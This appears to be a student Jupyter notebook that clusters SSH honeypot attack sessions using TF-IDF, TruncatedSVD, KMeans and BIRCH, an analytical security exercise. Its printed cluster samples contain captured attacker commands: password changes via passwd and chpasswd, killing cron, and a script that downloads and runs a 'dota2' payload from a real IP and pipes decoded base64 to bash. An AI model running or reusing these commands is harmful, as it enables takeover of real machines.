# Section 3 Unsupervised Learning


--------------------------------------------------------------------------------------

In [1]:
import string
import base64
import pandas as pd
import re
from sklearn.model_selection import train_test_split
from sklearn.preprocessing import StandardScaler
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.compose import ColumnTransformer
from sklearn.pipeline import Pipeline
from sklearn.linear_model import LogisticRegression
import os

# load dataset from environment variable
dataSetPath = os.environ.get('DATASET_PATH')
dataSet = pd.read_parquet(dataSetPath)

def decode_base64_payload(payload):
    base64_pattern = r'([A-Za-z0-9+/]{20,}={0,2})'
    if not "base64" in payload:
        return payload
    matches = re.findall(base64_pattern, payload)
    decoded_strings = []
    for match in matches:
        try:
            decoded = base64.b64decode(match).decode('utf-8', errors='ignore')
            # Filter out non-printable characters
            if all(c in string.printable for c in decoded):
                decoded_strings.append(decoded)
        except Exception as e:
            continue
    # return the original payload but with the decoded b64
    result = payload
    for match, decoded in zip(matches, decoded_strings):
        result = result.replace(match, decoded, 1)
    return result

dataSet['decoded_payload'] = dataSet['full_session'].apply(decode_base64_payload)

In [2]:

newDataSet = dataSet.drop(columns=['full_session','session_id','first_timestamp', 'Set_Fingerprint'])
# newDataSet["first_timestamp"] = pd.to_datetime(dataSet["first_timestamp"])
# newDataSet["day_of_the_week"] = newDataSet["first_timestamp"].dt.dayofweek
# newDataSet["month"] = newDataSet["first_timestamp"].dt.month



# y = newDataSet['Set_Fingerprint']

# newDataSet.drop(columns=['Set_Fingerprint'], inplace=True)


# X_train, X_test, y_train, y_test = train_test_split(
#     newDataSet,
#     y,
#     train_size=0.7,
#     random_state=42,
# )

X = newDataSet

# we will use the same token pattern as in part 1
token_pattern=r'[^\s|;(){}:\'\"><]+'


preprocessor = ColumnTransformer(
    transformers=[
        (
            "full_session_vectorized",
            TfidfVectorizer(
                lowercase=True,
                token_pattern=token_pattern,
            ),
            "decoded_payload"
        )
    ]
)

X = preprocessor.fit_transform(X)




<>:25: SyntaxWarning: invalid escape sequence '\s'
<>:25: SyntaxWarning: invalid escape sequence '\s'
/tmp/ipykernel_12440/3923716807.py:25: SyntaxWarning: invalid escape sequence '\s'
  plt.title(f'{len(perc_cumul_exp_var)} PCs explain {round(perc_cumul_exp_var[-1], 2)}% of $\sigma^2$')




New shape after SVD: (233035, 6)
Old shape before SVD: (233035, 399935)


In [3]:
# dimensionality reduction with TruncatedSVD (works with sparse matrices)
from sklearn.decomposition import TruncatedSVD
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

# cannot do correlation matrix as it would be too large

n_components = 6
svd = TruncatedSVD(n_components=n_components, random_state=42)
X_svd = svd.fit_transform(X)

# elbow method to choose number of components
explained_variance = svd.explained_variance_ratio_
cumul_exp_var = np.cumsum(explained_variance) # Get the cumulative explained variance
perc_cumul_exp_var = cumul_exp_var*100 # Get the percentages

# Plot
plt.figure(figsize=(5, 3.5))
plt.plot(perc_cumul_exp_var, marker='o')
plt.xlabel('# Principal Components (PCs)')
plt.ylabel('Cumulative explained variance [%]')
plt.xticks(np.arange(0, n_components, step=2), np.arange(2, n_components+2, step=2))
plt.grid()
plt.title(f'{len(perc_cumul_exp_var)} PCs explain {round(perc_cumul_exp_var[-1], 2)}% of $\sigma^2$')
plt.tight_layout()
plt.show()

print(f"New shape after SVD: {X_svd.shape}")
print(f"Old shape before SVD: {X.shape}")


Cluster the attacks according to their characteristics. Choose at least 2 Clustering Algorithms, and for each
of them:
1. Determine the number of clusters. Explain your choices and reasoning.
2. Tune other hyper-parameters, if any.3. Visualize the clusters. Explain your technique choice.

In [ ]:
# clusering with KMeans
from sklearn.cluster import KMeans
kmeans = KMeans(n_clusters=3, random_state=42)
cl_labels = kmeans.fit_predict(X_svd)

# silhouette score
from sklearn.metrics import silhouette_score
silouhette = silhouette_score(X_svd, cl_labels, n_jobs=-1, sample_size=10000)   # controllare seed
print(f'Silouhette score: {silouhette}')

Silouhette score: 0.92660674687924


In [5]:
# Step 1
from tqdm import trange
n_cluster_list=[]
shs_list = []
ri_list = []
ari_list = []
inertia_list=[]
for n_clusters in trange(3, 16):
    kmeans = KMeans(n_clusters=n_clusters)
    cl_labels = kmeans.fit_predict(X_svd)
    # Unsupervised metric
    silhouette  = silhouette_score(X_svd, cl_labels, n_jobs=-1, sample_size=10000)
    n_cluster_list.append(n_clusters)
    shs_list.append(silhouette)
    inertia_list.append(kmeans.inertia_)


100%|██████████| 13/13 [00:27<00:00,  2.14s/it]


best k:  7  with corresponding silhouette:  0.9726757816972




In [6]:
# Get n_clusters leading to the highest silhouette
best_sh= np.max(shs_list)
best_n=n_cluster_list[np.argmax(shs_list)]
print("best k: ",best_n, " with corresponding silhouette: ", best_sh)

# Plot
plt.figure(figsize=(5, 3.5))
plt.plot(n_cluster_list,shs_list, marker='o', markersize=5)
plt.scatter(best_n, best_sh, color='r', marker='x', s=90)
plt.grid()
plt.xlabel('Number of clusters')
plt.ylabel('Silhouette score')
plt.show()



In [7]:
# Step 3

# Plot k-Means clustering error
plt.figure(figsize=(5, 3.5))
plt.plot(n_cluster_list,inertia_list, marker='o', markersize=5)
plt.grid()
plt.xlabel('Number of clusters')
plt.ylabel('k-Means clustering error')
plt.show()

In [8]:
# choosing optimal k we can now do the final clustering
kmeans = KMeans(n_clusters=best_n, random_state=42)
cl_labels = kmeans.fit_predict(X_svd)

In [9]:
import pandas as pd
import random

# Remove the truncation on long strings
pd.set_option('display.max_colwidth', None)

# Add the cluster labels to the DataFrame
newDataSet['cluster'] = cl_labels

# Profile more samples (e.g., 10) to see if they stay consistent
for i in range(best_n):
    print(f"\n--- Cluster {i} Details ---")
    cluster_data = newDataSet[newDataSet['cluster'] == i]

    # Print payloads
    print("Payload Samples:")
    # taking 5 random samples for each cluster
    if not cluster_data['decoded_payload'].empty:
        num_samples = min(5, len(cluster_data['decoded_payload']))
        samples = random.sample(list(cluster_data['decoded_payload']), num_samples)
        print(*samples, sep="\n---\n")
        print()
    else:
        print("No payload samples for this cluster.")
    # print(cluster_data['decoded_payload'].head(5).to_string(index=False))


--- Cluster 0 Details ---
Payload Samples:
cat /proc/cpuinfo | grep name | wc -l ; echo -e "!QAZ@WSX3edc\nrg7Vlzc3gJa6\nrg7Vlzc3gJa6" | passwd | bash ; echo "!QAZ@WSX3edc\nrg7Vlzc3gJa6\nrg7Vlzc3gJa6\n" | passwd ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ; echo "admin !QAZ@WSX3edc" > /tmp/up.txt ; rm -rf /var/tmp/dota* ;
---
cat /proc/cpuinfo | grep name | wc -l ; echo -e "frodo\nyW7UUUXtJZZ8\nyW7UUUXtJZZ8" | passwd | bash ; echo "frodo\nyW7UUUXtJZZ8\nyW7UUUXtJZZ8\n" | passwd ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print

/tmp/ipykernel_12440/4107914010.py:25: UserWarning: The palette list has more values (15) than needed (7), which may not be intended.
  sns.scatterplot(




In [ ]:
from sklearn.manifold import TSNE
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

# 1. Subsample for speed (as done previously)
sample_size = min(5000, len(X_svd))
np.random.seed(42)
indices = np.random.choice(len(X_svd), size=sample_size, replace=False)

X_sample = X_svd[indices]
labels_sample = cl_labels[indices]

# 2. t-SNE
tsne = TSNE(n_components=2, perplexity=30, random_state=42, init='pca', learning_rate='auto')
X_tsne = tsne.fit_transform(X_sample)

# isualization 
plt.figure(figsize=(12, 8))

#  'tab20' palette  is designed for maximum distinctness up to 20 categories
palette = sns.color_palette("tab20", 15)

# Plot the points with white edges to help them pop
sns.scatterplot(
    x=X_tsne[:, 0], y=X_tsne[:, 1],
    hue=labels_sample,
    palette=palette,
    legend=None,  
    alpha=0.6,
    s=60,
    edgecolor='white',
    linewidth=0.5
)

# Add Text Labels at the centroid of each cluster
for cluster_id in np.unique(labels_sample):
    # Calculate the mean (x, y) coordinate for this specific cluster
    mask = (labels_sample == cluster_id)
    center_x = X_tsne[mask, 0].mean()
    center_y = X_tsne[mask, 1].mean()

    # Annotate the cluster number directly on the plot
    plt.text(
        center_x, center_y, f"Cluster {cluster_id}",
        fontsize=10,
        weight='bold',
        ha='center', va='center',
        bbox=dict(facecolor='white', alpha=0.8, edgecolor='black', boxstyle='round,pad=0.2')
    )

plt.title('kmeans - t-SNE View of Attack Clusters ($k=7$)', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle=':', alpha=0.4)
plt.tight_layout()
plt.savefig('tsne_clusters_high_contrast.png')















In [11]:
# Cluster analysis. Analyze the characteristics of each cluster. This might involve examining the most frequent words in each cluster (try word cloud). Try to understand which are the most representative ones

from wordcloud import WordCloud
import matplotlib.pyplot as plt
for i in range(best_n):
    cluster_data = newDataSet[newDataSet['cluster'] == i]
    text = " ".join(cluster_data['decoded_payload'].tolist())
    
    # for word, we use the same token pattern as before
    # Use the same token pattern to extract words
    tokens = re.findall(token_pattern, text)
    filtered_text = " ".join(tokens)
    wordcloud = WordCloud(width=800, height=400, background_color='white').generate(filtered_text)
    
    plt.figure(figsize=(10, 5))
    plt.imshow(wordcloud, interpolation='bilinear')
    plt.axis('off')
    plt.title(f'Word Cloud for Cluster {i}')
    plt.show()

    

In [16]:
import pandas as pd
import numpy as np
from sklearn.cluster import Birch
from sklearn.metrics import silhouette_score
import itertools

param_grid = {
    'threshold': [0.01, 0.05, 0.1, 0.3],
    'branching_factor': [50, 100, 200],
    'n_clusters': [5, 6, 7, 9, 11, 13, 15] 
}

combinations = list(itertools.product(*param_grid.values()))
results = []

# subsampling for speed
eval_indices = np.random.choice(len(X_svd), size=10000, replace=False)
X_eval = X_svd[eval_indices]

print(f"Starting Grid Search across {len(combinations)} combinations...")

for t, bf, n in combinations:
    try:
        # initialize and Fit
        birch = Birch(threshold=t, branching_factor=bf, n_clusters=n)
        labels = birch.fit_predict(X_svd) # Fit on full data
        
        # extract labels for the subsample
        labels_eval = labels[eval_indices]
        
        # calc Metric
        # We also check the 'actual' number of clusters found 
        # to detect the "empty cluster" problem
        unique_found = len(np.unique(labels))
        
        score = silhouette_score(X_eval, labels_eval)
        
        results.append({
            'threshold': t,
            'branching_factor': bf,
            'n_clusters_target': n,
            'n_clusters_found': unique_found,
            'silhouette': score
        })
        print(f"Tested: T={t}, BF={bf}, K={n} | Found: {unique_found} | Score: {score:.4f}")
        
    except Exception as e:
        continue

# Convert to DataFrame for analysis
results_df = pd.DataFrame(results).sort_values(by='silhouette', ascending=False)
print("\n--- Best BIRCH Configurations ---")
print(results_df.head(5))

Starting Grid Search across 84 combinations...
Tested: T=0.01, BF=50, K=5 | Found: 5 | Score: 0.9359
Tested: T=0.01, BF=50, K=6 | Found: 6 | Score: 0.8756
Tested: T=0.01, BF=50, K=7 | Found: 7 | Score: 0.8880
Tested: T=0.01, BF=50, K=9 | Found: 9 | Score: 0.8840
Tested: T=0.01, BF=50, K=11 | Found: 11 | Score: 0.9022
Tested: T=0.01, BF=50, K=13 | Found: 13 | Score: 0.9345
Tested: T=0.01, BF=50, K=15 | Found: 15 | Score: 0.9288
Tested: T=0.01, BF=100, K=5 | Found: 5 | Score: 0.9343
Tested: T=0.01, BF=100, K=6 | Found: 6 | Score: 0.9055
Tested: T=0.01, BF=100, K=7 | Found: 7 | Score: 0.9200
Tested: T=0.01, BF=100, K=9 | Found: 9 | Score: 0.9125
Tested: T=0.01, BF=100, K=11 | Found: 11 | Score: 0.9072
Tested: T=0.01, BF=100, K=13 | Found: 13 | Score: 0.9420
Tested: T=0.01, BF=100, K=15 | Found: 15 | Score: 0.9272
Tested: T=0.01, BF=200, K=5 | Found: 5 | Score: 0.9244
Tested: T=0.01, BF=200, K=6 | Found: 6 | Score: 0.8861
Tested: T=0.01, BF=200, K=7 | Found: 7 | Score: 0.8982
Tested: T=0.0

/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/sklearn/cluster/_birch.py:730: ConvergenceWarning: Number of subclusters found (10) by BIRCH is less than (11). Decrease the threshold.
  warnings.warn(


Tested: T=0.1, BF=50, K=11 | Found: 10 | Score: 0.9435


/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/sklearn/cluster/_birch.py:730: ConvergenceWarning: Number of subclusters found (10) by BIRCH is less than (13). Decrease the threshold.
  warnings.warn(


Tested: T=0.1, BF=50, K=13 | Found: 10 | Score: 0.9435


...

Tested: T=0.3, BF=200, K=11 | Found: 5 | Score: 0.9364


/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/sklearn/cluster/_birch.py:730: ConvergenceWarning: Number of subclusters found (5) by BIRCH is less than (13). Decrease the threshold.
  warnings.warn(


Tested: T=0.3, BF=200, K=13 | Found: 5 | Score: 0.9364


/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/sklearn/cluster/_birch.py:730: ConvergenceWarning: Number of subclusters found (5) by BIRCH is less than (15). Decrease the threshold.
  warnings.warn(


Tested: T=0.3, BF=200, K=15 | Found: 5 | Score: 0.9364

--- Best BIRCH Configurations ---
    threshold  branching_factor  n_clusters_target  n_clusters_found  \
51        0.1               100                  7                 7   
58        0.1               200                  7                 7   
44        0.1                50                  7                 7   
50        0.1               100                  6                 6   
43        0.1                50                  6                 6   

    silhouette  
51    0.971660  
58    0.971660  
44    0.971660  
50    0.961603  
43    0.961603  


In [21]:
# choosing optimal k we can now do the final clustering
best_n = int(results_df.iloc[0]['n_clusters_target'])
print(f"Final BIRCH clustering with n_clusters={best_n}")
birch = Birch(n_clusters=best_n, threshold=0.1, branching_factor=100)
cl_labels = birch.fit_predict(X_svd)

Final BIRCH clustering with n_clusters=7


In [22]:
# printing cluster details again
import pandas as pd
import random
# Remove the truncation on long strings
pd.set_option('display.max_colwidth', None)
# Add the cluster labels to the DataFrame
newDataSet['cluster'] = cl_labels

for i in range(best_n):
    print(f"\n--- Cluster {i} Details ---")
    cluster_data = newDataSet[newDataSet['cluster'] == i]

    # Print payloads
    print("Payload Samples:")
    # taking 5 random samples for each cluster
    if not cluster_data['decoded_payload'].empty:
        num_samples = min(5, len(cluster_data['decoded_payload']))
        samples = random.sample(list(cluster_data['decoded_payload']), num_samples)
        print(*samples, sep="\n---\n")
        print()
    else:
        print("No payload samples for this cluster.")




--- Cluster 0 Details ---
Payload Samples:
cd /var/tmp ; echo "#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://54.37.70.249/dota2.tar.gz || curl -O -f http://54.37.70.249/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0">.threatstackcloudsecops ; base64 --decode .threatstackcloudsecops | bash ; cat /proc/cpuinfo | grep name | wc -l ; echo "root:9ZOrX29QRzKb" | chpasswd | bash ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; which ls ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ;
---
cd /var/tmp ; echo "#!/bin/bash
cd /tmp
rm -rf .X15-unix



In [30]:
# BIRCH clusters t-SNE visualization
indices = np.random.choice(len(X_svd), size=sample_size, replace=False)

X_sample = X_svd[indices]
labels_sample = cl_labels[indices]

# t-SNE
tsne = TSNE(n_components=2, perplexity=30, random_state=42, init='pca', learning_rate='auto')
X_tsne = tsne.fit_transform(X_sample)

plt.figure(figsize=(14, 8))

unique_labels = np.unique(labels_sample)
num_clusters = len(unique_labels)
